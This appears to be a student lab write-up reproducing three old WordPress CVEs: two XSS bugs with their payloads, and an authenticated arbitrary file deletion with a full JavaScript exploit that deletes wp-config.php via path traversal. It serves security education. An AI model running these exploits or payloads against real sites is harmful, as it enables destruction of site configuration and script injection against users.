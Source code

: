 # Project 7 - WordPress Pen Testing

Time spent: **15** hours spent in total

> Objective: Find, analyze, recreate, and document **three vulnerabilities** affecting an old version of WordPress

## Pen Testing Report

### 1. Authenticated Stored Cross-Site Scripting (XSS) - CVE-2015-5622 

- [ ] Summary: 
  - Vulnerability types: XSS
  - Tested in version: 4.2
  - Fixed in version: 4.2.3
- [ ] GIF Walkthrough: <img src="stored_xss.gif" alt="stored_xss.gif">
- [ ] Steps to recreate: 
    - Create a user with **Editor** role and login as that user
    - Create a new post, switch to **Text** mode and paste `<a href="</a><a title=" onmouseover=alert('test')  ">link</a>` into the field
    - Login as another user and navigate to that new post
    - Alert should be displayed when hover to the link
- [ ] Affected source code:
  - [https://core.trac.wordpress.org/changeset/33359](https://core.trac.wordpress.org/changeset/33359)
  
### 2. Large File Upload Error XSS - CVE-2017-9061

- [ ] Summary: 
  - Vulnerability types: XSS
  - Tested in version: 4.2
  - Fixed in version: 4.7.5
- [ ] GIF Walkthrough: <img src="large_file_xss.gif" alt="large_file_xss.gif">
- [ ] Steps to recreate: 
    - Create a user with **Author** role or up and login as that user
    - Navigate to **Media** > **Add New**
    - Drag and drop the file `Large file XSS<img src=x onerror=alert('test')>.png` generated by provided python script
    - Alert should be displayed when dropped
- [ ] Affected source code:
  - [https://github.com/WordPress/WordPress/commit/8c7ea71edbbffca5d9766b7bea7c7f3722ffafa6](https://github.com/WordPress/WordPress/commit/8c7ea71edbbffca5d9766b7bea7c7f3722ffafa6)

### 3. Wordpress Authenticated Arbitrary File Deletion - CVE-2018-12895

- [ ] Summary: 
  - Vulnerability types: Arbitrary Code Execution
  - Tested in version: 4.2
  - Fixed in version: 4.9.7
- [ ] GIF Walkthrough: <img src="ace.gif" alt="ace.gif">
- [ ] Steps to recreate: 
    - Login as **Author** user
    - Navigate to **Media** > **Add New** > **Upload any image** > **Edit the image**
    - Execute the JavaScript snippet
    - Navigate to homepage, wordpress installation page should displayed since `wp-config.php` has already been deleted
- [ ] Affected source code:
  - [https://github.com/WordPress/WordPress/commit/c9dce0606b0d7e6f494d4abe7b193ac046a322cd](https://github.com/WordPress/WordPress/commit/c9dce0606b0d7e6f494d4abe7b193ac046a322cd)


## Assets

List any additional assets, such as scripts or files

```python
# Generates large file for vulnerability #2
import os

file_size = 1024 * 1024 * 20  # 20MB
with open("Large file XSS<img src=x onerror=alert('test')>.png", "wb") as out:
    out.write(os.urandom(file_size))
```


```javascript

// Deletes wp-config.php file for vulnerability #3

const file_to_delete = "../../../../wp-config.php"

function unlink_thumb(thumb) {

  $nonce_id = document.getElementById("_wpnonce").value
  if (thumb == null) {
    console.log("specify a file to delete")
    return false
  }
  if ($nonce_id == null) {
    console.log("the nonce id is not found")
    return false
  }

  fetch(window.location.href.replace("&action=edit",""),
    {
      method: 'POST',
      credentials: 'include',
      headers: {'Content-Type': 'application/x-www-form-urlencoded'},
      body: "action=editattachment&_wpnonce=" + $nonce_id + "&thumb=" + thumb
    })
    .then(function(resp0) {
      if (resp0.redirected) {
        $del = document.getElementsByClassName("submitdelete deletion").item(0).href
        if ($del == null) {
          console.log("Unknown error: could not find the url action")
          return false
        }
        fetch($del, 
          {
            method: 'GET',
            credentials: 'include'
          }).then(function(resp1) {
            if (resp1.redirected) {
              console.log("Arbitrary file deletion of " + thumb + " succeed!")
              return true
            } else {
              console.log("Arbitrary file deletion of " + thumb + " failed!")
              return false
            }
          })
      } else {
        console.log("Arbitrary file deletion of " + thumb + " failed!")
        return false
      }
    })
}

unlink_thumb(file_to_delete)
```

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [Gifski](https://gif.ski)


## License

    Copyright 2022 @sltd99

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
